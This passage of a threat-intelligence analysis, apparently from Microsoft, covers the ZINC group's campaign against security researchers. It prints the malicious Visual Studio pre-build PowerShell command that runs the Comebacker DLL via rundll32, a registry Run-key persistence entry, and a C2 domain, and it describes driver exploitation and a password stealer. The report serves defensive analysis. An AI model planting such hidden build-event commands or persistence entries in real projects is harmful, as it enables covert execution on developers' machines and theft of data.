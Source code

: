 Malicious Visual Studio project
Some of the files sent by ZINC to researchers were malicious Visual Studio projects that included prebuilt binaries. One of the binaries used the well-known name Browse.vc.db but was a malicious DLL rather than a database file. Microsoft Defender for Endpoint detects these DLLs as Comebacker malware. A pre-build event with a PowerShell command was used to launch Comebacker via rundll32. This use of a malicious pre-build event is an innovative technique to gain execution.
An example of the PowerShell in the pre-build event can be seen here:
<PreBuildEvent>
<Command>
powershell -executionpolicy bypass -windowstyle hidden if(([system.environment]::osversion.version.major -eq 10) -and [system.environment]::is64bitoperatingsystem -and (Test-Path x64\Debug\Browse.VC.db)){rundll32 x64\Debug\Browse.VC.db,ENGINE_get_RAND 7am1cKZAEb9Nl1pL 4201 }
</Command>
</PreBuildEvent>
Pre-build events are stored in the .vcxproj file in Visual Studio solutions. The page How to: Use Build Events in MSBuild Projects has a list of other build events and example XML for the events. It would also be possible to abuse a custom build step in the same way.
Analyzing Comebacker DLLs
Once the malicious Visual Studio Project file was built, the process drops C:\ProgramData\VirtualBox\update.bin and adds the file to an autostart registry key. Update.bin (SHA-256: 25d8ae46…) is a different 64-bit DLL file embedded inside Browser.VC.db.

HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\SSL Update
“C:\Windows\System32\rundll32.exe C:\ProgramData\VirtualBox\update.bin,ASN2_TYPE_new 5I9YjCZ0xlV45Ui8 2907”

The actors put some effort into modifying the Comebacker malware attributes between deployments; file names, file paths and exported functions were regularly changed so these static IOCs can’t be solely relied upon for dependable detection. We were first alerted to the attack when Microsoft Defender for Endpoint detected the Comebacker DLL attempting to perform process privilege escalation. See the Microsoft Defender for Endpoint detections section for a full process chain of the attack.
Klackring malware
Klackring is a DLL that registers a malicious service on the targeted machine. It was deployed to victims either by the Comebacker malware or an unknown dropper. The DLL was dropped to C:\Windows\system32 and saved with the .sys file extension.
MHTML file
In addition to the social engineering attacks via social media platforms, we observed that ZINC sent researchers a copy of a br0vvnn blog page saved as an MHTML file with instructions to open it with Internet Explorer. The MHTML file contained some obfuscated JavaScript that called out to a ZINC-controlled domain for further JavaScript to execute. The site was down at the time of investigation and we have not been able to retrieve the payload for further analysis.
Driver abuse
In one instance, we discovered the actor had downloaded an old version of the Viraglt64.sys driver from the Vir.IT eXplorer antivirus. The file was dropped to the victim system as C:\Windows\System32\drivers\circlassio.sys. The actor then attempted to exploit CVE-2017-16238, described by the finder here, where the driver doesn’t perform adequate checking on a buffer it receives, which can be abused to gain an arbitrary kernel write primitive. The actor’s code however appears to be buggy and when attempting to exploit the vulnerability the exploit tried to overwrite some of the driver’s own code which crashed the victim’s machine.
Other malware
Other tools used included an encrypted Chrome password-stealer hosted on ZINC domain https://codevexillium[.]org. The host DLL (SHA-256: ada7e80c…) was downloaded to the path C:\ProgramData\USOShared\USOShared.bin using PowerShell and then ran via rundll32.  This malware is a weaponized version of CryptLib, and it decrypted the Chrome password stealer (SHA-256: 9fd0506…), which it dropped to C:\ProgramData\USOShared\USOShared.dat.
C2 communication
After establishing a command-and-control (C2) channel on a targeted device, the backdoor is configured to check into the C2 servers every 60 seconds. Over this C2 channel, the threat actors can execute remote commands to enumerate files/directories and running processes, and to collect/upload information about the target device, including IP address, Computer Name, and NetBIOS.  Furthermore, we observed some hands-on-keyboard action to enumerate all files/directories on the target disk, create screenshots, and deploy additional modules.
Microsoft Defender for Endpoint detections
